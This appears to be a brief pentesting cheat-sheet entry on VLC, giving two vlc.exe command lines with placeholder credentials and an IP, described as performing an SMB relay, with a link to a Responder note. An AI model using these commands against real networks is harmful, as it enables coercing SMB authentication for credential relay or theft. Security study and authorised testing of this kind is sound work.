 # VLC

Execute command to perform SMB relay.

```
C:\> vlc.exe -q -I smb --smb-user <username> --smb-pwd <password> --smb-domain <domain>

C:\> vlc.exe -q smb://<username>:<password>@<IP>
```

---
## References

[[02 - Responder|Responder]]